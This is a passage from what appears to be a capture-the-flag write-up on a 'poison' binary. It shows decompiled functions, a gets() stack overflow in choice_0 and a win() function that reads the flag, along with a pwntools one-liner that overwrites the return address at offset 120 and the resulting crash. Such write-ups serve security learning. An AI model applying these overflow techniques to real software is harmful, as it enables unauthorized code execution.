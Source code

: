     loc_401d68:
        rax = 0x0;
        rax = choice_1();
        goto loc_401d8a;
    }


    int choice_0() {
        rax = puts(0x402230);
        rax = 0x0;
        rax = printf("Say> \"");
        rax = 0x0;
        rax = gets(&var_70);
        rsi = strlen(&var_70) + 0x6;
        rax = 0x0;
        rax = printf(0x40231f);
        return rax;
    }

Decompile win()

    int win() {
        memset(&var_10, 0x0, 0xb);
        var_4 = open("./flag", 0x0);
        if ((*(int32_t *)choice >= 0x0) && (*(int32_t *)choice <= 0x2)) {
                rdx = *(int32_t *)choice;
                lseek(var_4, sign_extend_64((rdx << 0x2) + rdx + (rdx << 0x2) + rdx), 0x0);
                read(var_4, &var_10, 0xa);
                printf("Here you go! %s", &var_10);
                rax = close(var_4);
        }
        else {
                rax = puts("How did you even get here?");
        }
        return rax;
    }

In each choice, there are inputs

- choice_0 = gets()
- choice_1 = scanf("%s")
- choice_2 = read(x, x, 0x20);

choice_0 seems like an easy choice.


#### Fuzz offset

Found offset = 120

    # (echo '0'; python -c "from pwn import *; print 'A'*120 + p64(0xffffeeeeccccbbbb)") | strace ./poison 

    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xffffeeeeccccbbbb} ---
    +++ killed by SIGSEGV +++
    Segmentation fault
